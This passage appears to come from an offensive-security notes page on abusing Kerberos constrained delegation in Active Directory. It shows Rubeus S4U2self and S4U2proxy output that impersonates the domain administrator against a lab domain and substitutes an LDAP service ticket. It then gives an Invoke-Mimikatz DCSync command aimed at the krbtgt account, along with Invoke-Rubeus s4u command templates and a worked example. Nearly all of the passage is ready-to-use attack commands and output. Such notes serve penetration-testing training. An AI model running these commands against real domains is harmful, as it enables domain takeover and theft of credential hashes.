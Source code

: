 From the output below we see that firstly,&#x20;

```
[*] Action: S4U

[*] Building S4U2self request for: 'SRV01$@SECURITY.LOCAL'
[*] Using domain controller: DC01.Security.local (10.10.10.100)
[*] Sending S4U2self request to 10.10.10.100:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'SRV01$@SECURITY.LOCAL'
[*] base64(ticket.kirbi):

[Base64 Ticket Output]

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.security.local'
[*]   Final ticket will be for the alternate service 'ldap'
[*] Building S4U2proxy request for service: 'cifs/dc01.security.local'
[*] Using domain controller: DC01.Security.local (10.10.10.100)
[*] Sending S4U2proxy request to domain controller 10.10.10.100:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'ldap'
[*] base64(ticket.kirbi) for SPN 'ldap/dc01.security.local':

[Base64 Ticket Output]
```

In the above output we alternate the CIFS service for LDAP. As the Domain Administrator has been impersonated this can be used to perfrom DCSync.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:security.local /user:krbtgt"'
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Invoke-Rubeus" %}
{% code overflow="wrap" %}
```powershell
Invoke-Rubeus -Command "s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /altservice:[Alternate-Service] /user:[User] /ticket:[Base64 ticket] /nowrap"
```
{% endcode %}

**Example**

{% code overflow="wrap" %}
```powershell
Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /altservice:ldap /user:srv01$ 
/ticket:[Base64 ticket] /nowrap"
```
{% endcode %}
{% endtab %}
{% endtabs %}
